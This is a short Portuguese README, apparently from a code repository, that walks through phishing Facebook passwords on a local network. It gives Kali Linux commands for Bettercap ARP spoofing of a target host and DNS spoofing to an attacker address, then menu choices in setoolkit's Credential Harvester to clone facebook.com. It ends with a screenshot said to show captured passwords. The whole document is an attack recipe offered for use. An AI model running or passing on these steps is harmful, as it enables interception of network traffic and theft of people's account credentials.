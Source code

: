 # Phishing para captura de senhas do Facebook

### Ferramentas

- Kali Linux (Sistema Operacional)
- setoolkit (ferramenta para captura dos dados - nativo do Kali Linux)
- Bettercap (ferramenta para mascarar URL com DNS spoof)

### Atualização e instalação de ferramentas no Kali Linux

- Acesso root: ``` sudo su ```
- Atualizando sistema operacional e repositórios: ``` apt update && sudo apt upgrade -y ```
- Instalando o Bettercap: ``` apt install bettercap -y ```

### Configurando o DNS spoof no Bettercap

- Verificando qual o nome da interface de rede: ``` ip a ```
- Obtendo o endereço da máquina: ``` ifconfig ```
- Executando o Bettercap no modo interativo: ``` bettercap -iface eth0 ```
- Definindo o alvo do spoofing ARP: ``` set arp.spoof.targets 192.168.1.11 ```
- Ativando spoofing ARP (ataque MITM): ``` arp.spoof on ```
- Definindo o domínio a ser redirecionado: ``` set dns.spoof.domains http://face.book.com ```
- Definindo o endereço de acesso da página: ``` set dns.spoof.address 192.168.1.13 ```
- Ativando o DNS spoof: ``` dns.spoof on ```

### Configurando o Phishing no setoolkit

- Iniciando o setoolkit: ``` setoolkit ```
- Tipo de ataque: ``` 1) Social-Engineering Attacks ```
- Vetor de ataque: ``` 2) Web Site Attack Vectors ```
- Método de ataque: ``` 3) Credential Harvester Attack Method ```
- Método de ataque: ``` 2) Site Cloner ```
- URL para clone: http://www.facebook.com

### Resultados

![Alt text](./passwd.png "Optional title")
